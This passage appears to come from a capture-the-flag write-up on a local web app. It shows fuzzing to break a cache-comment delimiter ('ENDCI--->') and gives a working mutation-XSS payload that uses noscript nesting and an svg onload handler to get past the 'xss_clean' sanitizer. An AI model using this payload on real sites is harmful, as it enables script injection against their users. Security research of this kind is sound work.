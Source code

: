 I then decided to simply fuzz `--FUZZ>` this pattern to see if there are any characters which would allow me to have `--->` in output.
Turns out from the result there are a bunch of such characters.

```html
%09
%0D
%20

<div class="fireplace" id="---->">
```

Btw if you look carefully there is an extra `-` which I failed to notice one first try and was wondering why it wasn't working, so thanks to the `str2id` method which was responsible for converting space characters to `-`.Just need to remove one `-` from our input and we are good to go.

```html
--%20>
<div class="fireplace" id="--->">
```

![image](https://gist.github.com/user-attachments/assets/30d0f755-8486-436f-bc11-399efebe3a30)

You can see how it get transformed into

```php
$match[0]
a:2:{s:6:"expire";i:1734589274;s:7:"headers";a:0:{}}ENDCI---><!DOCTYPE html><html lang="en"><head><meta charset="UTF-8"><meta name="viewport" content="width=device-width, initial-scale=1.0"><link rel="stylesheet" href="/style.css"></head><body background="#483741" class="fire-border"><a href="/index.php" class="top-left">⬅ Go back</a><div class="wrapper"><h1>ENDCI-- &gt;aaaaaa</h1><ul class="wall"><li></li><li></li><li></li><li></li><li></li><li></li><li></li><li></li><li></li><li></li><li></li><li></li><li></li><li></li><li></li></ul><div class="crown"><ul class="round"><li></li><li></li><li></li><li></li><li></li><li></li><li></li><li></li><li></li><li></li><li></li><li></li><li></li><li></li><li></li><li></li><li></li></ul><ul class="ball"><li></li><li></li><li></li><li></li><li></li><li></li><li></li><li></li><li></li><li></li><li></li><li></li></ul></div><div class="fireplace" id="ENDCI--->
```
<http://localhost:8002/index.php/view?title=ENDCI--%20%3Eaaaaaa>

![image](https://gist.github.com/user-attachments/assets/427e81af-6166-45ee-9383-ec43ed99da98)

-------------

# Mutation XSS to bypass `xss_clean`

After fuzzing for what tags are allowed I found that it allows noscript,noframes,etc so we can the unfamous noscript mutation vector to bypass this

```html
ENDCI-- >aaaa<noscript>< a id='</noscript><svg/onload=location=name>'></noscript>
```

Notice the space  `< a>` , while playing with the sanitizer I noticed it was removing  the `id` attribrute when I simply put it as `<a` but seems with custom elements it doesn't validates much and the attributes are allowed. I didn't looked into the source of `xss_clean` as I didn't had time.
